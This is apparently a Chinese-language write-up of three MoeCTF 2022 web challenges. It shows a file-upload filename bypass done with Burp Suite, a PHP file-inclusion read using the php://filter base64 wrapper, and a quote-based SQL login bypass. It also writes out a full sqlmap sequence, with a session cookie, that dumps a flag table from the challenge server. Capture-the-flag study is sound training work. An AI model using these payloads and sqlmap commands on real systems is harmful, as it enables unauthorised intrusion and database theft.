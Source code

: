### What are you uploading

打开网页，是经典的上传文件题。随便传一个，发现有格式限制，只能传png/jpg/gif。按照要求随便传一个png上去，提示你只要传一个f1ag.php就会给出flag

于是打开burpsuite，对上传的文件名进行修改，拿到flag

### inclusion

~~一眼include，鉴定为php协议~~

直接`?file=flag.php`果然不行，去网上搜了搜发现可以利用php的filter读出base64编码后的信息，于是`?file=php://filter/read=convert.base64-encode/resource=flag.php`，将信息base64解码后得到flag

> 解题参考 https://blog.csdn.net/vhkjhwbs/article/details/99728785

### sqlmap_boy

~~嗨害嗨，脚本小子来了嗷~~

先F12，看到有注释提示sql语句`<!-- $sql = 'select username,password from users where username="'.$username.'" && password="'.$password.'";'; -->`

根据此语句构造注入语句`'"="'`，这样后面会变成`"'.'"="'.'"`的恒真表达式。·

被定向到secrets.php?id=1  ![草](https://raw.githubusercontents.com/XDSEC/MoeCTF_2022/main/WriteUps/SherkeyXD/images/image-20221006111806382.png)

尝试改了个id=2  ![什么b东西](https://raw.githubusercontents.com/XDSEC/MoeCTF_2022/main/WriteUps/SherkeyXD/images/image-20221006111911358.png)

顺带一提，如果你之前没登进去直接访问secrets.php，会变成这样

![来劲了是吧](https://raw.githubusercontents.com/XDSEC/MoeCTF_2022/main/WriteUps/SherkeyXD/images/image-20221006112033386.png)~~烦死了（恼~~

想到题目的sqlmap，现学了sqlmap的使用方法，~~然后找到一篇基本上是把答案糊你脸上的博客~~。

这里划重点，**一定要带上cookie！**~~有个大冤种浪费了好久我不说是谁~~

先试了下 `sqlmap -u http://82.156.5.200:1045/secrets.php\?id\=1 --cookie="PHPSESSID=d001d48957ce798b041801bfd28fd16e" --dbs`，发现有这么几个数据库 

![image-20221006113116427](https://raw.githubusercontents.com/XDSEC/MoeCTF_2022/main/WriteUps/SherkeyXD/images/image-20221006113116427.png)

然后是`sqlmap -u http://82.156.5.200:1045/secrets.php\?id\=1 --cookie="PHPSESSID=d001d48957ce798b041801bfd28fd16e" -D moectf --tables`，发现有flag

![image-20221006113250098](https://raw.githubusercontents.com/XDSEC/MoeCTF_2022/main/WriteUps/SherkeyXD/images/image-20221006113250098.png)

列出flag中的所有项 `sqlmap -u http://82.156.5.200:1045/secrets.php\?id\=1 --cookie="PHPSESSID=d001d48957ce798b041801bfd28fd16e" -D moectf -T flag --columns`

![image-20221006113558643](https://raw.githubusercontents.com/XDSEC/MoeCTF_2022/main/WriteUps/SherkeyXD/images/image-20221006113558643.png)

将flAg列出，得到flag` sqlmap -u http://82.156.5.200:1045/secrets.php\?id\=1 --cookie="PHPSESSID=d001d48957ce798b041801bfd28fd16e" -D moectf -T flag -C flAg --dump`

> 解题参考 https://blog.csdn.net/weixin_43882862/article/details/119673249
